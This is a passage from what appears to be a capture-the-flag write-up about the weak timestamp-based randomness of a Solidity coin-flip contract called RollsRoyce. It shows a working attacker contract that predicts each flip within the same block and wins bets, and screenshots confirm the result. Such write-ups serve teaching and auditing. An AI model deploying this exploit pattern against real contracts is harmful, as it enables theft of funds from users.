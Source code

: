 # NSRNG: Not-So Random Number Generator

Let's start from the first one then. The function for coin flipping seems a bit complex:
```
function flipCoin() private view returns (CoinFlipOption) {
    return
        CoinFlipOption(
            uint(
                keccak256(abi.encodePacked(block.timestamp ^ 0x1F2DF76A6))
            ) % 2
        );
}
```
But really all it does is get a bit out of the current block timestamp XORed with a constant.

Now, just using the timestamp for randomness should immediately raise a red flag. If you know ethereum a bit, you might know that miners can potentially manipulate it.

But we're not mining here, so it's safe from us, right? Well, let's consider what this timestamp is for: the block.

So, if another contract is called in the same block, it gets the same timestamp.

We can exploit that quite easily by writing our own contract targeting this one then:
```solidity
contract PerfectGuesser {
    function flipCoin() private view returns (RollsRoyce.CoinFlipOption) {
        return
            RollsRoyce.CoinFlipOption(
                uint(
                    keccak256(abi.encodePacked(block.timestamp ^ 0x1F2DF76A6))
                ) % 2
            );
    }
    function guessCorrectly(address payable target) public payable {
        require(msg.value == 1 ether, "To play it needs to be 1 ether");
        RollsRoyce.CoinFlipOption result = flipCoin();
        RollsRoyce(target).guess{value: 1 ether}(result);
        RollsRoyce(target).revealResults();
    }
}
```
Since the `flipCoin` in the target contract function is private, we can just copy it from the source and add a qualifier to tell the compiler we're using the same enum for values.

If we then deploy that contract in the VM we can simply call the `guessCorrectly` function with the RollsRoyce contract address as the parameter while sending 1 ether along:
![obraz.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1654467318642/EW-LL3CFm.png align="center")
If we then call `viewWins` function on the RollsRoyce contract with our contract address as the parameter we see that it was indeed correct:
![obraz.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1654467379800/9tiywQc2B.png align="center")
We can run it a few more times to ensure it's not a fluke...
![obraz.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1654467438998/xbIqSy0Um.png align="center")
And yup, it sure does work. But we can't yet withdraw money and it's quite manual.
